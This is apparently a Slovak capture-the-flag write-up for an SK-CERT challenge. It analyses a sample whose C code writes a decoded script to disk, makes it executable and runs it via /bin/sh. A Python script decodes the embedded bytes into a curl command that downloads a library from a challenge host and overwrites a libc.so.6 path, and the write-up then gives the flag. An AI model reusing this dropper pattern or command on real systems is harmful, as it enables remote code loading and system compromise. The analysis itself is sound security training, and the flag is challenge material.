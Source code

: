 ```c
    int fd = open(path, O_WRONLY | O_CREAT | O_TRUNC, 0644);
    if (fd < 0) exit(1);
    write(fd, enc, len);
    close(fd);

    // 4) Nastavenie práv na spustenie
    chmod(path, 0777);

    // 5) Príprava argumentov pre execve
    char *argv_exec[] = {
        "/bin/sh",
        "-c",
        (char *)path,
        NULL
    };

    // 6) Spustenie skriptu
    execve("/bin/sh", argv_exec, NULL);

    // 7) Ak execve zlyhá, ukončíme proces
    exit(0);
}
```

Vieme čo robí, ale čo sa spustí zistím python skriptom

```python
data = bytearray([
    0xF0, 0xCE, 0xCB, 0xC9, 0xBD, 0xF5, 0xC1, 0xC1, 0xCD, 0x83, 0x8C, 0x8C, 0xFF, 0xF2, 0xC9, 0xFE,
    0xC0, 0xB7, 0xF0, 0xC2, 0xFB, 0xFE, 0xCB, 0xF4, 0xFA, 0xF6, 0xFE, 0xB7, 0xC0, 0xC8, 0x8C, 0xC0,
    0xC2, 0xC0, 0xC1, 0xFE, 0xF6, 0xCE, 0xCD, 0xF1, 0xFA, 0xC1, 0xFE, 0xB6, 0x8B, 0xFB, 0x8A, 0x84,
    0x81, 0xF1, 0x85, 0x82, 0xB6, 0x8E, 0x8F, 0x81, 0xFB, 0xB6, 0x81, 0x8D, 0x8B, 0x81, 0xB6, 0xFA,
    0xF0, 0xFB, 0x8F, 0xB6, 0xFB, 0x8A, 0x82, 0x8E, 0xFF, 0x81, 0xF0, 0x85, 0x8A, 0xFA, 0x80, 0xF0,
    0x8C, 0xC9, 0xF2, 0xFB, 0xB7, 0xC0, 0xCC, 0xB0, 0xA0, 0xA8, 0xB6, 0xD0, 0xDE, 0xAB, 0xA1, 0x18,
    0xFB, 0x8A, 0xF7, 0xFC, 0xCD, 0x81, 0xC2, 0xC9, 0x8D, 0x81, 0xF1, 0xFC, 0xF1, 0x8D, 0x80, 0x8E,
    0xFC, 0xF7, 0x8D, 0x84, 0xFC, 0xC0, 0x80, 0x80, 0xF6, 0x8E, 0xFC, 0xC9, 0x8A, 0xC8, 0x80, 0xFC,
    0xF0, 0x8D, 0xF6, 0xF6, 0x81, 0xF7, 0xF1, 0x8E, 0x06, 0xBD, 0xC7, 0xBD, 0x8C, 0xC9, 0xF2, 0xFB,
    0xFC, 0xC0, 0xFA, 0xFF, 0xFE, 0x8C, 0xC5, 0x85, 0x8F, 0xFC, 0x8F, 0x81, 0xB6, 0xC9, 0xF2, 0xF7,
    0xCE, 0xC5, 0xB6, 0xF4, 0xF7, 0xCE, 0x8C, 0xC9, 0xF2, 0xFB, 0xF0, 0xB7, 0xC0, 0xCC, 0xB7, 0x8F,
    0xBD
])

for i in range(0xB1):
    data[i] ^= 0x68
    data[i] = (data[i] + 0x32) & 0xFF
    data[i] ^= 0xE2
    data[i] = (data[i] - 0xC5) & 0xFF
data.append(0)

decoded_string = data.decode('utf-8', errors='ignore')
print(decoded_string)
```

Výstup

`curl http://files.cybergame.sk/systemupdate-2b174d89-564b-4024-acb6-b195f4c81a3c/lib.so#SK-CERT{b1n_p4yl04d_d035_n07_s33m5_l1k3_c0mm4nd5} > /lib_safe/x86_64-linux-gnu/libc.so.6`

## Vlajka

```
SK-CERT{b1n_p4yl04d_d035_n07_s33m5_l1k3_c0mm4nd5}
```
